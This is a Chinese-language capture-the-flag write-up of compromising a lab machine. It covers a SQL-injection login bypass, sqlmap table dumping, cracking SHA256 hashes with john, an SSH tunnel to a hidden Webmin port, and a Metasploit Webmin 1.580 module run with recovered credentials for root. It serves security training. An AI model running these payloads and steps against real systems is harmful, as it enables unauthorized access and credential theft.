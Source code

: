 
需要用到sqlmap或者手注、破解用户哈希密码、使用 SSH 隧道显示隐藏服务以及使用 metasploit 有效负载获得 root 权限。

有个登录界面 用万能密码能登进去
```
' or 1=1;--  
```

是个搜索界面
![image.png](https://s2.loli.net/2025/04/19/7lIphPqOLicfZKF.png)

输了一个'之后会发现有个报错 我们可以考虑一下sql手注 或者sqlmap注入

## sql手注

先来试试手注 
```
构造and 1=1以及and 1=2
用于数字型注入点，

构造and '1' ='1'以及and '1' ='2'
用于字符型，

有报错就是存在
```



## sqlmap
bp抓包 将post复制下来进行爆破 --dump 能爆出账户和密码

![image.png](https://s2.loli.net/2025/04/19/kre4XsTnAPhqFyC.png)

```
sqlmap -r sql.txt -D db --tables
```

![image.png](https://s2.loli.net/2025/04/19/n2XRSuMpwTP1dsz.png)


john破解密码

```
john john.txt --format=RAW-SHA256 --wordlist=rockyou.txt 
```

![image.png](https://s2.loli.net/2025/04/19/Xnz5tl7LDPA8KVd.png)

## ssh反向隧道

反向 SSH 端口转发指定将远程服务器主机上的给定端口转发到本地端的给定主机和端口。


```
ss -tunlp
```
![image.png](https://s2.loli.net/2025/04/19/E2imDBtV6T1p4Xw.png)

有个10000端口 用 SSH 隧道，我们可以将端口公开给本地

```
ssh -L 10000:localhost:10000 agent47@10.10.120.156
```

![image.png](https://s2.loli.net/2025/04/19/bn9AYgRPjDEBNQy.png)

这个时候我们去访问localhost:10000就会有个页面

## msf攻击

```
search webmin 1.580
use 0
set USERNAME agent47
set PASSWORD videogamer124
set lhost vpn分配的ip
set ssl false
```

运行之后会生成会话 就是root权限